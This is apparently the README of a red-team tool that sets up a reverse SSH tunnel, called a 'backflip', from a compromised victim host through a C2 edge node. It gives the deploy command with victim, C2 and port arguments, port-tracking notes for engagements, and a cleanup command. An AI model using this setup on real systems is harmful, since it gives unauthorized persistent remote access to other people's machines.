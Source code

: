# SSH Backflip Generator

## Useage

`sudo python3 backflipdeploy.py <username> <victim_host> <c2_fqdn/ip> <port> <remote_port>`

## Arguments

username: Arbitrary name of the user you are compromising. Stored locally in `/opt/backflips` on a poryx

victim_host: Arbitrary name of the host you are compromising. Stored locally in `/opt/backflips` on a proxy

c2_fqdn/ip: The IP address or domain of the edge sketch node the backflip will connect through

port: Port that forwards back to the victim (tcp/22). Use a range of 4000 and upwards. Track this on the `Table for tracking backflips` in an engagements infra.

remote_port: The secondary edge port that the backflip SSH service is running on, which for RTI is 2222.

## Clean Up
To remove the backflip on the host mac
`run python3 cleanup.py <payload name>`
